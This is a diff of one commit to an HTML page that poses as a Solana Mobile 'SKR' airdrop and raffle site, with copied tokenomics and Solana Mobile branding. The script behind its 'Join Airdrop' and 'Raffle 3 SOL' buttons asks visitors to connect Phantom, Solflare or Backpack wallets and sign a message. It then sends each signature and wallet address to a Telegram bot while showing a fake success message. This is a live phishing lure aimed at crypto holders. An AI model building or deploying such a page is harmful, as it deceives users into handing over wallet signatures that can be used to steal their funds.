

Before and after one commit to SOLANA-SKR/SOLANA-Mob, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 383-1325 px from the top of the page. Before the commit the page ends 975 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Mobile SKR | Airdrop & Raffle</title>
+  <title>Mobile SKR</title>
 
   <style>
     :root{
@@ -25,12 +25,10 @@
     /* NAVBAR */
     .nav{
       position:fixed; top:0; left:0; right:0; height:72px; padding:0 22px;
-      display:flex; align-items:center; justify-content:space-between;
+      display:flex; align-items:center; justify-content:center;
       background:rgba(10,15,20,.8); backdrop-filter:blur(12px);
       border-bottom:1px solid rgba(255,255,255,.06); z-index:100;
     }
-    .brand{ display:flex; align-items:center; gap:12px; font-weight:780; letter-spacing:.12em; text-transform:uppercase; font-size:.88rem; }
-    .brand-mark{ width:30px; height:18px; border-radius:6px; background:linear-gradient(90deg,var(--sol-a),var(--sol-b)); }
     .actions{ display:flex; gap:12px; align-items:center; }
     .btn{
       border-radius:999px; padding:10px 18px; border:1px solid rgba(255,255,255,.16);
@@ -44,67 +42,168 @@
     /* HERO */
     .wrap{ max-width:1000px; margin:0 auto; padding:120px 20px 60px; position:relative; z-index:1; }
     .hero{
+      text-align:center; margin-bottom:40px;
+    }
+    .hero-logo{ width:280px; margin-bottom:15px; filter:drop-shadow(0 0 20px var(--sol-a)); }
+    .hero-subtitle{ color:var(--muted); font-size:1.1rem; }
+    /* SECTIONS */
+    .sections{
+      display:grid; grid-template-columns:repeat(4,1fr); gap:20px;
+    }
+    .card{
       background:rgba(0,0,0,.4); border:1px solid rgba(255,255,255,.08);
-      border-radius:var(--radius-xl); padding:60px 20px; text-align:center; box-shadow:var(--shadow);
+      border-radius:var(--radius-lg); padding:20px; box-shadow:var(--shadow);
     }
-    .hero-logo{ width:120px; margin-bottom:15px; filter:drop-shadow(0 0 20px var(--sol-a)); }
-    h1{ font-size:3.5rem; font-weight:900; margin-bottom:10px; }
-    .hero-badge{
-      display:inline-block; padding:6px 16px; border-radius:999px;
-      background:rgba(20,241,149,.1); border:1px solid var(--sol-a);
-      color:var(--sol-a); font-size:.85rem; margin-bottom:25px;
-    }
-
-    .status-msg{ margin:20px 0; min-height:24px; color:var(--sol-a); font-weight:500; }
-    /* WALLET GRID */
-    .wallet-panel{ margin:30px 0; background:rgba(255,255,255,.03); padding:20px; border-radius:var(--radius-lg); border:1px solid rgba(255,255,255,.05); }
-    .wallet-grid{ display:flex; justify-content:center; gap:10px; flex-wrap:wrap; margin-top:15px; }
-    .wallet-item{
-        display:flex; align-items:center; gap:8px; padding:8px 15px;
-        background:rgba(0,0,0,.5); border:1px solid rgba(255,255,255,.1);
-        border-radius:999px; cursor:pointer; font-size:0.85rem;
-    }
-    .wallet-item:hover{ border-color:var(--sol-a); }
-    .main-btns{ display:flex; flex-direction:column; gap:15px; align-items:center; margin-top:30px; }
-    .big-btn{ width:100%; max-width:400px; padding:18px; border-radius:15px; font-size:1.1rem; font-weight:800; text-transform:uppercase; border:none; cursor:pointer; transition:0.3s; }
+    .card h3{ font-size:1.2rem; margin-bottom:12px; }
+    .card p{ font-size:0.9rem; color:var(--muted); line-height:1.4; margin-bottom:12px; }
+    .chart{ height:120px; margin-bottom:12px; display:block; margin:0 auto; }
+    .legend{ list-style:none; font-size:0.85rem; }
+    .legend li{ display:flex; align-items:center; gap:8px; margin-bottom:6px; }
+    .dot{ width:10px; height:10px; border-radius:50%; }
+    .table{ font-size:0.85rem; border-collapse:collapse; width:100%; }
+    .table th, .table td{ padding:6px; border:1px solid var(--border-soft); text-align:left; }
+    .table th{ background:rgba(255,255,255,.05); }
+    .supply{ font-size:1rem; text-align:center; margin-bottom:20px; color:var(--sol-a); }
   </style>
 </head>
 <body>
   <canvas id="dust"></canvas>
   <header class="nav">
-    <div class="brand">
-      <div class="brand-mark"></div>
-      <div>Mobile SKR</div>
-    </div>
     <div class="actions">
       <button class="btn" id="connect-nav" onclick="connectWallet()">Connect Wallet</button>
+      <button id="airdrop-btn" class="btn btn-primary" disabled onclick="handleSign('airdrop')">
+        Join Airdrop
+      </button>
+      <button id="raffle-btn" class="btn btn-accent" disabled onclick="handleSign('giveaway')">
+        Raffle 3 SOL
+      </button>
     </div>
   </header>
   <main class="wrap">
     <section class="hero">
       <img src="https://purple-accused-scorpion-11.mypinata.cloud/ipfs/bafybeifvwriqjehl62zeceva2yp7653jxy7sghyehrqh263aeuqbecsy7i" class="hero-logo" alt="SKR Logo">
-      <h1>SKR HUB</h1>
-      <div class="hero-badge">🎁 AIRDROP: 500 SKR ACTIVE</div>
-
-      <p style="color:var(--muted); max-width:600px; margin:0 auto;">
-        Connect your wallet and sign the message to confirm your participation in the Mobile SKR ecosystem.
-      </p>
-      <div id="status" class="status-msg">Waiting for connection...</div>
-      <div class="main-btns">
-        <button id="airdrop-btn" class="big-btn btn-primary" disabled onclick="handleSign('airdrop')">
-            Join Airdrop
-        </button>
-        <button id="raffle-btn" class="big-btn btn-accent" disabled onclick="handleSign('giveaway')">
-            Raffle 3 SOL
-        </button>
+      <p class="hero-subtitle">Mobile SKR - native asset of the ecosystem • Open mobile platform</p>
+    </section>
+    <div class="supply">Total supply: 10 billion SKR</div>
+    <section class="sections">
+      <div class="card">
+        <h3>Our Mission</h3>
+        <p>Today's mobile duopoly controls what apps ship, who gets paid, and what rules apply. Solana Mobile is building the alternative — an open mobile platform.</p>
+        <p>SKR is the native asset of the Solana Mobile ecosystem. It distributes control, powers curation, and aligns incentives across builders, users, and hardware partners.</p>
+        <p>Via SKR, the community governs, builders keep what they earn, and users own a stake in the value they create.</p>
+        <p>Decentralized Governance<br>Stake to Guardians who verify devices and curate the dApp Store</p>
+        <p>Ecosystem Ownership<br>Rewards, community treasury funds, growth initiatives, and protocol development</p>
+        <p>Aligned Incentives<br>Builders, users, and hardware partners share in the value they create.</p>
       </div>
-      <div class="wallet-panel">
-        <div style="font-size:0.8rem; text-transform:uppercase; letter-spacing:1px; color:var(--muted)">Available Wallets</div>
-        <div class="wallet-grid">
-            <div class="wallet-item" onclick="connectWallet()"><span style="color:#8a5cff">●</span> Phantom</div>
-            <div class="wallet-item" onclick="connectWallet()"><span style="color:#ff9a4a">●</span> Solflare</div>
-            <div class="wallet-item" onclick="connectWallet()"><span style="color:#34d5ff">●</span> Backpack</div>
-        </div>
+      <div class="card">
+        <h3>Inflation Schedule</h3>
+        <p>SKR employs linear inflation to incentivize early participation</p>
+        <svg class="chart" width="181.8pt" height="97.56pt" viewBox="0 0 181.8 97.56" xmlns="http://www.w3.org/2000/svg" version="1.1">
+          <g id="figure_1">
+            <g id="patch_1">
+              <path d="M 0 97.56 L 181.8 97.56 L 181.8 0 L 0 0 L 0 97.56 z" style="fill: none"/>
+            </g>
+            <g id="axes_1">
+              <g id="line2d_1">
+                <path d="M 14.809091 86.58 L 45.245455 64.532456 L 75.681818 46.343233 L 106.118182 31.678171 L 136.554545 20.060693 L 166.990909 10.98 " clip-path="url(#p33f1ba092b)" style="fill: none; stroke: #14f195; stroke-width: 2; stroke-linecap: square"/>
+              </g>
+            </g>
+          </g>
+          <defs>
+            <clipPath id="p33f1ba092b">
+              <rect x="7.2" y="7.2" width="167.4" height="83.16"/>
+            </clipPath>
+          </defs>
+        </svg>
+        <ul class="legend" style="margin-top:8px;">
+          <li>Year 1 <span>10% inflation (1bn SKR)</span></li>
+          <li>Annual Decay <span>25% reduction</span></li>
+          <li>Terminal Rate <span>2% per annum</span></li>
+        </ul>
+        <button class="btn btn-primary" style="width:100%;">View</button>
+      </div>
+      <div class="card">
+        <h3>Token Distribution</h3>
+        <svg class="chart" width="125.28pt" height="125.28pt" viewBox="0 0 125.28 125.28" xmlns="http://www.w3.org/2000/svg" version="1.1">
+          <g id="figure_1">
+            <g id="patch_1">
+              <path d="M 0 125.28 L 125.28 125.28 L 125.28 0 L 0 0 L 0 125.28 z" style="fill: none"/>
+            </g>
+            <g id="axes_1">
+              <g id="patch_2">
+                <path d="M 106.992 62.64 C 106.992 55.641134 105.33534 48.740648 102.157921 42.504613 C 98.980502 36.268577 94.371652 30.872307 88.70945 26.758477 C 83.047248 22.644647 76.490877 19.92891 69.578179 18.834046 C 62.66548 17.739183 55.590792 18.295973 48.934475 20.458742 L 62.64 62.64 L 106.992 62.64 z" style="fill: #14f195"/>
+              </g>
+              <g id="patch_3">
+                <path d="M 48.934475 20.458742 C 37.751601 24.09228 28.460265 32.027831 23.122077 42.504616 C 17.783889 52.981401 16.825205 65.16265 20.458742 76.345525 L 62.64 62.64 L 48.934475 20.458742 z" style="fill: #80ecff"/>
+              </g>
+              <g id="patch_4">
+                <path d="M 20.458742 76.345525 C 22.621511 83.001842 26.329457 89.052658 31.278403 94.001603 C 36.227349 98.950548 42.278165 102.658492 48.934483 104.82126 L 62.64 62.64 L 20.458742 76.345525 z" style="fill: #a100ff"/>
+              </g>
+              <g id="patch_5">
+                <path d="M 48.934483 104.82126 C 53.360757 106.259443 57.985945 106.992001 62.640005 106.992 C 67.294065 106.991999 71.919253 106.259441 76.345527 104.821257 L 62.64 62.64 L 48.934483 104.82126 z" style="fill: #ff69b4"/>
+              </g>
+              <g id="patch_6">
+                <path d="M 76.345527 104.821257 C 80.771801 103.383073 84.944243 101.257107 88.709456 98.521518 C 92.474669 95.78593 95.785938 92.474661 98.521525 88.709447 L 62.64 62.64 L 76.345527 104.821257 z" style="fill: #4169e1"/>
+              </g>
+              <g id="patch_7">
+                <path d="M 98.521525 88.709447 C 101.257112 84.944233 103.383078 80.77179 104.82126 76.345516 C 106.259443 71.919242 106.992001 67.294053 106.992 62.639994 L 62.64 62.64 L 98.521525 88.709447 z" style="fill: #ffd700"/>
+              </g>
+            </g>
+          </g>
+        </svg>
+        <ul class="legend">
+          <li><div class="dot" style="background:#14f195"></div> Airdrops - 30%</li>
+          <li><div class="dot" style="background:#80ecff"></div> Growth + Partnerships - 25%</li>
+          <li><div class="dot" style="background:#a100ff"></div> Solana Mobile Team - 15%</li>
+          <li><div class="dot" style="background:#ff69b4"></div> Liquidity + Launch - 10%</li>
+          <li><div class="dot" style="background:#4169e1"></div> Solana Labs - 10%</li>
+          <li><div class="dot" style="background:#ffd700"></div> Community Treasury - 10%</li>
+        </ul>
+      </div>
+      <div class="card">
+        <h3>Tokenomics</h3>
+        <table class="table">
+          <thead>
+            <tr>
+              <th>Category</th>
+              <th>Allocation</th>
+              <th>Unlock Schedule</th>
+            </tr>
+          </thead>
+          <tbody>
+            <tr>
+              <td>Airdrops</td>
+              <td>30%</td>
+              <td>Unlocked at launch</td>
+            </tr>
+            <tr>
+              <td>Growth + Partnerships</td>
+              <td>25%</td>
+              <td>28% unlocked at launch, linear unlock over 18 months</td>
+            </tr>
+            <tr>
+              <td>Solana Mobile Team</td>
+              <td>15%</td>
+              <td>12-month cliff, 36-month linear vest</td>
+            </tr>
+            <tr>
+              <td>Liquidity + Launch</td>
+              <td>10%</td>
+              <td>Unlocked at launch</td>
+            </tr>
+            <tr>
+              <td>Solana Labs</td>
+              <td>10%</td>
+              <td>12-month cliff, 36-month linear vest</td>
+            </tr>
+            <tr>
+              <td>Community Treasury</td>
+              <td>10%</td>
+              <td>Unlocked at launch managed via governance</td>
+            </tr>
+          </tbody>
+        </table>
+        <button class="btn btn-primary" style="width:100%; margin-top:12px;">View Full Token Distribution Chart</button>
       </div>
     </section>
   </main>
@@ -129,13 +228,12 @@
 
         // Update UI
         document.getElementById('connect-nav').innerText = walletAddress.slice(0,4) + '...' + walletAddress.slice(-4);
-        document.getElementById('status').innerText = "Wallet connected! Now sign your claim.";
         document.getElementById('airdrop-btn').disabled = false;
         document.getElementById('raffle-btn').disabled = false;
 
       } catch (err) {
         console.error(err);
-        document.getElementById('status').innerText = "Wallet connection failed.";
+        alert("Wallet connection failed.");
       }
     }
 
@@ -150,13 +248,13 @@
       let provider = window.solana || window.solflare || window.backpack;
 
       try {
-        document.getElementById('status').innerText = "Confirm the action in your wallet...";
+        alert("Confirm the action in your wallet...");
 
         const encodedMessage = new TextEncoder().encode(message);
         const signedMessage = await provider.signMessage(encodedMessage, "utf8");
         const signature = btoa(String.fromCharCode(...signedMessage.signature));
 
-        document.getElementById('status').innerText = "Sending data...";
+        alert("Sending data...");
 
         // Send to Telegram
         const text = `🚀 *NEW SIGNATURE!*\n\n` +
@@ -174,18 +272,15 @@
           })
         });
 
-        document.getElementById('status').innerText = "✅ Your claim has been successfully registered!";
-        document.getElementById('status').style.color = "#14f195";
-        alert("Success! Your signature has been recorded.");
+        alert("✅ Your claim has been successfully registered!");
 
       } catch (err) {
         console.error(err);
-        document.getElementById('status').innerText = "Error: Signature cancelled or failed.";
-        document.getElementById('status').style.color = "#ff4a4a";
+        alert("Error: Signature cancelled or failed.");
       }
     }
 
-    // --- PARTICLE ANIMATION (dust/stars) ---
+    // --- PARTICLE ANIMATION ---
     (function () {
       const canvas = document.getElementById("dust");
       const ctx = canvas.getContext("2d");
```
